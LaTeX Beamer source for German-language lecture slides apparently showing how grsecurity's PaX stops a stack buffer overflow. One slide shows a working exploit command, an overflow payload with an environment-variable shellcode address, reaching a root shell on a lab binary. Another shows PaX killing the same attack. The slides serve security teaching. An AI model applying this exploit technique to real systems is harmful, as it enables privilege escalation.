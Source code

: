 \begin{frame}[fragile]{PaX}{PaX-Flags: pemRs}
    \begin{figure}[h]
        \label{lst:paxflagsaus}
        \begin{lstlisting}[numbers=none, frame=single, lineskip={-2.5pt}, breaklines=true,language=bash]
        [*root@grsec ~/SWSec #*] echo $0
        zsh
        [*root@grsec ~/SWSec #*] ./getenvaddr EGG ./exploitable
        EGG will be at 0xffffdf9d
        [*root@grsec ~/SWSec #*] ./exploitable $(python2 -c 'print("A"*52 + "\x9d\xdf\xff\xff")') 
        Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???, I will copy your name to a 40byte stack buffer now
        [*[root@grsec]#*] whoami && echo $0
        root
        bash
        [*[root@grsec]#*] exit
        exit
        \end{lstlisting}
        \caption{PaX-Flags: pemRs}
    \end{figure}  
\end{frame}

\begin{frame}[fragile]{PaX}{PaX-Flags: PeMRs}
    \begin{figure}[h]
        \label{lst:paxflagsan}
        \begin{lstlisting}[numbers=none, frame=single, lineskip={-2.5pt}, breaklines=true,language=bash]
        [*root@grsec ~/SWSec #*] ./exploitable $(python2 
        -c 'print("A"*52 + "\x9d\xdf\xff\xff")')
        Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???, I will copy your name to a 40byte stack buffer now
        [1]    412 killed (core dumped)  ./exploitable $(python2 -c 'print("A"*52 + "\x9d\xdf\xff\xff")')

        [ 8218.606318] PAX: execution attempt in: <stack>, fffde000-fffff000 3fffffde000
        [ 8218.606328] PAX: terminating task: /root/SWSec/exploitable(exploitable):400, uid/euid: 0/0, PC: 00000000ffffdf9d, SP: 00000000ffffe4b0
        [ 8218.606332] PAX: bytes at PC: 90 90 90 90 90 90 90 90 31 c0 50 68 2f 2f 73 68 68 2f 62 69 
        [ 8218.606347] PAX: bytes at SP-8: 41414141 ffffdf9d ffffe600 ffffe574 ffffe580 080484d1 f7fbf3dc ffffe4e0 00000000 f7e21497 00000002 f7fbf000 00000000 f7e21497 00000002 ffffe574 ffffe580 00000000 00000000 00000000 f7fbf000 0804820c
        \end{lstlisting}
        \caption{PaX-Flags: PeMRs}
    \end{figure}
\end{frame}

\begin{frame}{PaX}{PaX-Flags}
	\begin{exampleblock}{PAX\_PAGEEXEC}
		Verhinderung der Ausführung von Code außerhalb der CODE-Sektion des Programmspeichers (NX-Bit).
		PAGE\_FAULT wird geworfen.
	\end{exampleblock}
    \begin{exampleblock}{PAX\_EMUTRAMP}
    	Ermöglicht die Ausführung dynamisch erzeugten Codes (Bsp.: JIT-Compiler). Ist ein PAGE\_FAULT-Handler.
    \end{exampleblock}
\end{frame}

